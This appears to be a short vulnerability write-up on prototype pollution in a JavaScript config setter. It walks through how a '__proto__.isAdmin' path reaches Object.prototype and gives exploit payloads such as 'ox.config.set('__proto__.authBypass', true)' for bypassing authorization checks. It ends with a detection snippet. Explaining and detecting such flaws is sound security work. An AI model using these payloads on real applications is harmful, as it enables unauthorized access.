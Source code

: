 ### Vulnerability Prototype Pollution Flow:  
1. **Path Parsing**:  
   ```javascript  
   // Input: "__proto__.isAdmin"  
   parts = ['__proto__', 'isAdmin']  
   ```  

2. **Recursive Traversal**:  
   ```javascript  
   while (parts.length > 1) {  
       part = parts.shift(); // '__proto__'  
       temp = temp[part]; // temp now points to Object.prototype  
   }  
   ```  

3. **Property Assignment**:  
   ```javascript  
   temp['isAdmin'] = true; // Modifies Object.prototype  
   ```  

**Impact Propagation**:  
```mermaid  
graph LR  
    A[Malicious config.set] --> B[Object.prototype modified]  
    B --> C[All objects inherit malicious properties]  
    C --> D[Security checks bypassed]  
    C --> E[Application logic altered]  
    C --> F[Sensitive data exposed]  
```  

### Exploit Chaining  
1. **Initial Pollution**:  
   ```javascript  
   ox.config.set('__proto__.authBypass', true)  
   ```  

2. **Logic Manipulation**:  
   ```javascript  
   if (user.authBypass) { // Now true for ALL objects  
       loadAdminDashboard();  
   }  
   ```  

3. **Persistence**:  
   ```javascript  
   ox.config.set('constructor.prototype.persist', 'malicious_code')  
   ```  



## Detection Signatures  
**Client-Side Indicators**:  
```javascript  
// Monitor prototype modifications  
Object.defineProperty(Object.prototype, 'isAdmin', {  
    set: function(value) {  
        console.warn('Prototype pollution attempt!', value);  
        securityAlert();  
    },  
    configurable: false  
});  
```  
